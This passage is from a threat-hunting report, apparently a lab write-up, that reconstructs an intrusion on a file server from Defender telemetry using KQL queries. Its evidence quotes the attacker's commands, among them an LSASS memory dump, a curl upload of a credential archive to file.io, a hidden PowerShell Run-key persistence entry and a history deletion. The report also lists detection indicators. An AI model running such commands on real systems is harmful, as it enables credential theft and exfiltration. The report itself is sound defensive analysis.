    datetime(2025-11-22T01:07:53Z) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where InitiatingProcessAccountName == "fileadmin"
| where InitiatingProcessFileName =~ "tar.exe"
| project
    TimeGenerated,
    DeviceName,
    ActionType,
    FileName,
    FolderPath,
    InitiatingProcessAccountName,
    InitiatingProcessFileName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
"tar.exe" -czf C:\Windows\Logs\CBS\credentials.tar.gz -C C:\Windows\Logs\CBS\it-admin .
```

```text
"tar.exe" -czf C:\Windows\Logs\CBS\shipping.tar.gz -C C:\Windows\Logs\CBS\shipping .
```

> Add screenshot: TAR archive creation

### Analysis

The creation of multiple archives indicates that the attacker organized collected information into separate portable packages prior to exfiltration.

### Security Impact

Compression reduced the complexity of transferring large groups of stolen files and marked the transition from collection to exfiltration preparation.

### MITRE ATT&CK Mapping

| Tactic     | Technique              | ATT&CK ID |
| ---------- | ---------------------- | --------- |
| Collection | Archive Collected Data | T1560.001 |
| Collection | Local Data Staging     | T1074.001 |

### Confirmed Findings

`"tar.exe" -czf C:\Windows\Logs\CBS\credentials.tar.gz -C C:\Windows\Logs\CBS\it-admin .`

`"tar.exe" -czf C:\Windows\Logs\CBS\shipping.tar.gz -C C:\Windows\Logs\CBS\shipping .`

---

## Finding 13 — Suspicious Renamed Credential-Dumping Tool

### Objective

Identify the suspicious executable staged before credential theft.

### Finding Summary

During analysis of executable creation events inside the attacker-controlled staging directory, `DeviceFileEvents` showed that:

```text
pd.exe
```

was created under:

```text
C:\Windows\Logs\CBS
```

at `2025-11-22T02:03:19.984Z` under the compromised `fileadmin` account.

The short, ambiguous filename is consistent with an attacker attempting to disguise or rename credential-dumping tooling to reduce the effectiveness of simple filename-based detections.

The file was later deleted from the same staging directory.

The telemetry confirms that `pd.exe` was created and later used during credential-dumping activity. However, no direct `FileRenamed` event was identified, so the original filename cannot be confirmed from the available evidence.

### Investigation Approach

`DeviceFileEvents` was reviewed for executable files appearing inside the known attacker staging directory.

### Query / Search Used

**KQL Name: `EXE Hunt`**

```kusto
DeviceFileEvents
| where TimeGenerated between (
    datetime(2025-11-22) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where FolderPath contains @"C:\Windows\Logs\CBS"
| where FileName contains ".exe"
| project
    TimeGenerated,
    DeviceName,
    ActionType,
    FileName,
    PreviousFileName,
    FolderPath,
    PreviousFolderPath,
    InitiatingProcessAccountName
| order by TimeGenerated asc
```

### Evidence

```text
2025-11-22T02:03:19.984Z
Action: FileCreated
File: pd.exe
Path: C:\Windows\Logs\CBS\pd.exe
Account: fileadmin
```

Later:

```text
2025-11-22T02:26:23.418Z
Action: FileDeleted
File: pd.exe
```

> Add screenshot: `pd.exe` creation/deletion

### Analysis

The challenge context identifies `pd.exe` as a renamed credential-dumping utility. The available telemetry supports the suspicious executable creation but does not directly prove the original filename.

### Security Impact

Renaming offensive tooling can evade simple detections based on known executable names.

### MITRE ATT&CK Mapping

| Tactic          | Technique                             | ATT&CK ID |
| --------------- | ------------------------------------- | --------- |
| Defense Evasion | Masquerading: Rename System Utilities | T1036.003 |

### Confirmed Finding

`pd.exe`

---

## Finding 14 — LSASS Credential Dumping

### Objective

Determine how the attacker used `pd.exe` to extract authentication material.

### Finding Summary

After staging `pd.exe` on `azuki-fileserver01`, the attacker executed it under the compromised `fileadmin` account.

At `2025-11-22T02:24:44.390Z`, `DeviceProcessEvents` recorded:

```text
"pd.exe" -accepteula -ma 876 C:\Windows\Logs\CBS\lsass.dmp
```

The `-ma` argument requested a full memory dump, while process ID `876` was the targeted process.

The resulting memory dump was written to:

```text
C:\Windows\Logs\CBS\lsass.dmp
```

The scenario identifies PID `876` as LSASS, the Windows authentication process. Dumping LSASS memory can expose authentication material that may be reused for additional lateral movement or privileged access.

### Investigation Approach

`DeviceProcessEvents` was filtered for execution of the previously identified `pd.exe` executable.

### Query / Search Used

**KQL Name: `LSASS Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-22T02:03:19.9845969Z) ..
    datetime(2025-11-23T02:26:23.4180939Z)
)
| where DeviceName == "azuki-fileserver01"
| where FileName == "pd.exe"
| where InitiatingProcessCommandLine contains "powershell"
| where AccountName == "fileadmin"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessAccountName,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Timestamp: 2025-11-22T02:24:44.390Z
Command:
"pd.exe" -accepteula -ma 876 C:\Windows\Logs\CBS\lsass.dmp
```

> Add screenshot: LSASS dump command

### Analysis

The command shows that the attacker used the staged executable to create a full memory dump of the Windows authentication process.

### Security Impact

LSASS memory can contain highly sensitive authentication material such as password-derived credentials, NTLM hashes, or Kerberos-related information.

### MITRE ATT&CK Mapping

| Tactic            | Technique                           | ATT&CK ID |
| ----------------- | ----------------------------------- | --------- |
| Credential Access | OS Credential Dumping: LSASS Memory | T1003.001 |

### Confirmed Finding

`"pd.exe" -accepteula -ma 876 C:\Windows\Logs\CBS\lsass.dmp`

---

## Finding 15 — Credential Archive Exfiltration to Cloud Storage

### Objective

Determine how the attacker transferred stolen information outside the environment and identify the external destination.

### Finding Summary

After obtaining, staging, and compressing credential-related information on `azuki-fileserver01`, the attacker used `curl.exe` to upload the compressed credential archive to the external cloud file-sharing service `file.io`.

`DeviceProcessEvents` recorded:

```text
"curl.exe" -F file=@C:\Windows\Logs\CBS\credentials.tar.gz https://file.io
```

executed under the compromised `fileadmin` account.

The `-F` option submitted the archive using HTTP form-data syntax, while the destination domain `file.io` identified the external service used for exfiltration.

This single event confirms both the **method used to transfer the stolen information** and the **external service receiving the data**.

### Investigation Approach

Process telemetry was searched for HTTP-capable command-line utilities performing outbound file uploads after archive creation.

### Query / Search Used

**KQL Name: `Cloud Exfil Hunt`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (
    datetime(2025-11-22T01:30:00Z) ..
    datetime(2025-11-22T02:01:00Z)
)
| where DeviceName == "azuki-fileserver01"
| where FileName =~ "curl.exe"
| where ProcessCommandLine contains "-F"
| where ProcessCommandLine contains "tar.gz"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    FileName,
    ProcessCommandLine,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Command:
"curl.exe" -F file=@C:\Windows\Logs\CBS\credentials.tar.gz https://file.io
```

Cloud service:

```text
file.io
```

> Add screenshot: Curl exfiltration

### Analysis

The attacker used a standard HTTP client and a public file-sharing service rather than a custom exfiltration protocol.

This allowed the traffic to use normal HTTPS communication while transferring a previously staged archive outside the network.

### Security Impact

Sensitive information left the environment and was transferred to infrastructure outside organizational control.

### MITRE ATT&CK Mapping

| Tactic       | Technique                     | ATT&CK ID |
| ------------ | ----------------------------- | --------- |
| Exfiltration | Exfiltration Over Web Service | T1567     |
| Exfiltration | Exfiltration to Cloud Storage | T1567.002 |

### Confirmed Findings

`"curl.exe" -F file=@C:\Windows\Logs\CBS\credentials.tar.gz https://file.io`

`file.io`

---

## Finding 16 — Registry Run-Key Persistence and Payload Masquerading

### Objective

Identify the attacker’s persistence mechanism and the payload configured to execute automatically.

### Finding Summary

After performing collection and exfiltration activity on `azuki-fileserver01`, the attacker established persistence by adding a registry value named:

```text
FileShareSync
```

under the Windows Run key.

At `2025-11-22T02:10:50.825Z`, `DeviceRegistryEvents` showed that the value was configured to execute:

```text
powershell -NoP -W Hidden -File C:\Windows\System32\svchost.ps1
```

The persistence mechanism used two forms of masquerading.

The registry value name `FileShareSync` was designed to resemble legitimate synchronization software, while the payload filename `svchost.ps1` imitated the name of the legitimate Windows `svchost.exe` component.

The attacker also queried the same registry value afterward, likely verifying that the persistence mechanism had been created successfully.

### Investigation Approach

Registry telemetry was reviewed for modifications to common Windows autorun locations by the compromised `fileadmin` account.

### Query / Search Used

**KQL Name: `Run Key Hunt`**

```kusto
DeviceRegistryEvents
| where TimeGenerated between (
    datetime(2025-11-22T01:59:54.2755596Z) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where InitiatingProcessFileName == "reg.exe"
| where InitiatingProcessAccountName == "fileadmin"
| where ActionType == "RegistryValueSet"
| project
    TimeGenerated,
    DeviceName,
    InitiatingProcessAccountName,
    ActionType,
    RegistryValueName,
    RegistryKey,
    RegistryValueData,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

Registry value:

```text
FileShareSync
```

Registry key:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Registry data:

```text
powershell -NoP -W Hidden -File C:\Windows\System32\svchost.ps1
```

Observed command:

```text
"reg.exe" add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v FileShareSync /t REG_SZ /d "powershell -NoP -W Hidden -File C:\Windows\System32\svchost.ps1" /f
```

Verification command:

```text
"reg.exe" query HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v FileShareSync
```

> Add screenshot: registry persistence

### Analysis

The Run key would cause the configured PowerShell command to execute automatically during Windows startup/logon processing.

The use of `-W Hidden` reduced visible execution, while the names `FileShareSync` and `svchost.ps1` were selected to resemble legitimate Windows or enterprise activity.

### Security Impact

The persistence mechanism could allow malicious execution to resume after a reboot or future logon even if the original interactive attacker session ended.

### MITRE ATT&CK Mapping

| Tactic          | Technique                                  | ATT&CK ID |
| --------------- | ------------------------------------------ | --------- |
| Persistence     | Registry Run Keys / Startup Folder         | T1547.001 |
| Defense Evasion | Match Legitimate Resource Name or Location | T1036.005 |

### Confirmed Findings

`FileShareSync`

`C:\Windows\System32\svchost.ps1`

---

## Finding 17 — PowerShell Command History Deletion

### Objective

Identify the forensic artifact deleted by the attacker near the end of the intrusion.

### Finding Summary

After completing malicious activity on `azuki-fileserver01`, the attacker attempted to remove evidence of previously executed PowerShell commands.

At `2025-11-22T02:26:01.166Z`, `DeviceFileEvents` recorded deletion of:

```text
ConsoleHost_history.txt
```

from the compromised `fileadmin` user’s PowerShell profile directory:

```text
C:\Users\fileadmin\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

This file stores PowerShell command history across sessions. Deleting it removes a useful forensic artifact that could help investigators reconstruct interactive commands executed by the attacker.

### Investigation Approach

`DeviceFileEvents` was reviewed for deletion activity occurring after credential dumping, exfiltration, and persistence activity.

### Query / Search Used

**KQL Name: `History Hunt`**

```kusto
DeviceFileEvents
| where TimeGenerated between (
    datetime(2025-11-22T02:10:50) ..
    datetime(2025-11-23)
)
| where DeviceName == "azuki-fileserver01"
| where ActionType == "FileDeleted"
| project
    TimeGenerated,
    DeviceName,
    InitiatingProcessAccountName,
    ActionType,
    FileName,
    PreviousFileName,
    FolderPath,
    PreviousFolderPath,
    InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence

```text
Timestamp: 2025-11-22T02:26:01.166Z
File: ConsoleHost_history.txt
Path:
C:\Users\fileadmin\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

> Add screenshot: PowerShell history deletion

### Analysis

The targeted deletion occurred near the end of the attacker’s observed operations and removed a file directly associated with command-line forensic history.

### Security Impact

Removal of command history reduced available forensic evidence and could hinder incident reconstruction.

### MITRE ATT&CK Mapping

| Tactic          | Technique                                | ATT&CK ID |
| --------------- | ---------------------------------------- | --------- |
| Defense Evasion | Indicator Removal: Clear Command History | T1070.003 |

### Confirmed Finding

`ConsoleHost_history.txt`

---

# 6. MITRE ATT&CK Mapping

| Tactic                   | Technique                                  | ATT&CK ID | Supporting Evidence                                   |
| ------------------------ | ------------------------------------------ | --------- | ----------------------------------------------------- |
| Defense Evasion / Access | Valid Accounts                             | T1078     | Successful logons using compromised accounts          |
| Lateral Movement         | Remote Services                            | T1021     | `mstsc.exe /v:10.1.0.188` and correlated RDP activity |
| Discovery                | Network Share Discovery                    | T1135     | `net.exe share` and `net.exe view \\10.1.0.188`       |
| Discovery                | System Owner/User Discovery                | T1033     | `whoami.exe`                                          |
| Discovery                | System Network Configuration Discovery     | T1016     | `ipconfig.exe /all`                                   |
| Defense Evasion          | Hidden Files and Directories               | T1564.001 | `attrib.exe +h +s C:\Windows\Logs\CBS`                |
| Collection               | Local Data Staging                         | T1074.001 | `C:\Windows\Logs\CBS` reused for attacker artifacts   |
| Command and Control      | Ingress Tool Transfer                      | T1105     | `certutil.exe` downloading `ex.ps1`                   |
| Credential Access        | Unsecured Credentials                      | T1552     | `IT-Admin-Passwords.csv`                              |
| Collection               | Automated Collection                       | T1119     | Recursive `xcopy.exe` collection                      |
| Collection               | Archive Collected Data                     | T1560.001 | `credentials.tar.gz`, `shipping.tar.gz`               |
| Defense Evasion          | Masquerading: Rename System Utilities      | T1036.003 | `pd.exe` staged before credential dumping             |
| Credential Access        | OS Credential Dumping: LSASS Memory        | T1003.001 | `pd.exe -ma 876 ...lsass.dmp`                         |
| Exfiltration             | Exfiltration Over Web Service              | T1567     | `curl.exe -F ...`                                     |
| Exfiltration             | Exfiltration to Cloud Storage              | T1567.002 | `file.io`                                             |
| Persistence              | Registry Run Keys / Startup Folder         | T1547.001 | `FileShareSync`                                       |
| Defense Evasion          | Match Legitimate Resource Name or Location | T1036.005 | `svchost.ps1`                                         |
| Defense Evasion          | Clear Command History                      | T1070.003 | `ConsoleHost_history.txt` deletion                    |

---

## MITRE ATT&CK Flow


---

# 7. After-Action Recommendations

## Immediate Actions

| Recommendation                                                                          | Reason                                                       | Priority |
| --------------------------------------------------------------------------------------- | ------------------------------------------------------------ | -------- |
| Isolate `azuki-sl` and `azuki-fileserver01`                                             | Prevent additional malicious activity and preserve evidence  | High     |
| Disable or reset `fileadmin` and `kenji.sato`                                           | Both accounts were associated with confirmed attacker access | High     |
| Rotate privileged credentials potentially exposed through LSASS or administrative files | Credential compromise may extend beyond observed accounts    | High     |
| Remove `FileShareSync` after evidence preservation                                      | Eliminate confirmed persistence                              | High     |
| Quarantine `svchost.ps1`, `pd.exe`, `ex.ps1`, and related attacker artifacts            | Remove malicious or unauthorized tooling                     | High     |
| Investigate/block `159.26.106.98` and `78.141.196.6`                                    | Both were associated with malicious activity                 | High     |
| Review outbound access to `file.io`                                                     | Determine whether additional exfiltration occurred           | High     |

---

## Remediation / Hardening

### Account Security

* Restrict privileged accounts to approved administrative systems.
* Review the permissions assigned to `fileadmin`.
* Require MFA for remote administrative access where supported.
* Rotate credentials potentially exposed through LSASS dumping.
* Review privileged and service accounts for credential reuse.

### Remote Access

* Restrict RDP between standard workstations and high-value servers.
* Require approved administrative systems for server RDP.
* Monitor unusual `mstsc.exe` execution from user endpoints.
* Review firewall rules controlling access to file servers.

### File Share Security

Review permissions on sensitive file-share locations and apply least privilege.

Monitor for unusual recursive copies from sensitive directories.

### Endpoint Hardening

Monitor the contextual use of:

```text
certutil.exe
curl.exe
xcopy.exe
tar.exe
powershell.exe
reg.exe
```

These utilities may be legitimate in normal operations but become suspicious when combined with attacker-style command-line behavior.

### Outbound Network Controls

Review whether public or anonymous file-sharing services such as `file.io` are required from server-class systems.

Consider proxy or firewall restrictions where business requirements permit.

---

## Detection Improvements

### Lateral Movement Detection

Correlate:

```text
mstsc.exe execution
        +
successful Network / RemoteInteractive logon
        +
privileged account
        +
server destination
```

Cross-table correlation can provide stronger detection confidence than any individual event.

---

### Discovery Detection

Monitor rapid execution sequences involving:

```text
net share
net view
whoami
ipconfig /all
```

especially when performed by privileged users on high-value systems.

---

### Staging Detection

Alert on:

```text
attrib.exe +h +s
```

when applied to unusual or system-like directories.

Also monitor concentrations of newly created attacker artifacts under locations such as:

```text
C:\Windows\Logs\
C:\ProgramData\
C:\Windows\Temp\
```

---

### Living-Off-the-Land Transfer Detection

Monitor utilities such as:

```text
certutil.exe
curl.exe
bitsadmin.exe
powershell.exe
```

when paired with:

```text
http://
https://
-urlcache
Invoke-WebRequest
Invoke-RestMethod
DownloadFile
DownloadString
```

---

### Collection Detection

Alert on unusual recursive copying using:

```text
xcopy.exe
robocopy.exe
```

when the source contains sensitive information or the destination is a hidden/system directory.

---

### Archive Detection

Monitor:

```text
tar.exe
7z.exe
rar.exe
makecab.exe
```

when used to archive sensitive directories shortly before external network transfers.

---

### Credential Dump Detection

High-priority detection should include:

* Processes accessing LSASS
* `.dmp` files appearing in unusual locations
* ProcDump-style arguments such as `-ma` or `-accepteula`
* Unknown or renamed executables used to dump protected processes

---

### Exfiltration Detection

Monitor combinations such as:

```text
curl.exe
+
-F
+
archive/dump file
+
external HTTPS destination
```

Sensitive file types may include:

```text
.tar.gz
.zip
.dmp
.csv
```

---

### Registry Persistence Detection

Monitor modifications to:

```text
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

especially when values launch:

* PowerShell
* Hidden windows
* `.ps1` files
* Scripts or executables using names resembling Windows components

---

### Anti-Forensics Detection

Alert on deletion of:

```text
ConsoleHost_history.txt
```

particularly when it occurs shortly after:

* Credential dumping
* Data exfiltration
* Persistence creation
* Suspicious PowerShell activity

---

# 8. Conclusion

This investigation reconstructed a multi-stage compromise using Microsoft Defender for Endpoint Advanced Hunting telemetry and KQL.

The attacker retained access to the original `azuki-sl` workstation and later moved laterally to `azuki-fileserver01` using the privileged `fileadmin` account.

Following lateral movement, the attacker performed network and system discovery, created a concealed staging location, transferred additional tooling, collected sensitive administrative information, compressed stolen data, dumped LSASS memory, and exfiltrated archives to an external cloud file-sharing service.

The attacker also established registry-based persistence using the `FileShareSync` Run-key value and a masqueraded `svchost.ps1` PowerShell script. Near the end of the observed activity, PowerShell command history was deleted in an attempt to reduce forensic evidence.

The investigation confirmed attacker activity across the following stages:

```text
Return Access
    ↓
Lateral Movement
    ↓
Discovery
    ↓
Defense Evasion
    ↓
Local Staging
    ↓
Tool Transfer
    ↓
Collection
    ↓
Archive Creation
    ↓
Credential Access
    ↓
Exfiltration
    ↓
Persistence
    ↓
Anti-Forensics
```

One of the most important lessons from the investigation was the value of **cross-table correlation**.

For example, the lateral-movement target could not be confidently identified using the `mstsc.exe` command alone. It required correlating process execution with authentication activity occurring immediately afterward:

```text
DeviceProcessEvents
        ↓
mstsc.exe execution
        ↓
exact timestamp
        ↓
DeviceLogonEvents
        ↓
source device
        ↓
destination host
        ↓
compromised account
```

The same correlation-driven approach was used throughout the investigation to reconstruct the attacker’s actions from endpoint telemetry.

This threat hunt demonstrated practical experience with:

* Microsoft Defender for Endpoint Advanced Hunting
* Kusto Query Language
* Endpoint process analysis
* Authentication-event correlation
* File and registry telemetry
* Lateral movement investigation
* Windows-native discovery techniques
* Living-off-the-land behavior
* Data staging and automated collection
* Archive analysis
* Credential dumping
* Exfiltration analysis
* Registry persistence
* Anti-forensic behavior
* MITRE ATT&CK mapping
* IOC extraction
* SOC incident reporting

The investigation objective was successfully met: the attacker’s major actions, affected systems, compromised account, staging location, credential-access activity, exfiltration method, persistence mechanism, and cleanup behavior were identified and reconstructed from available telemetry.
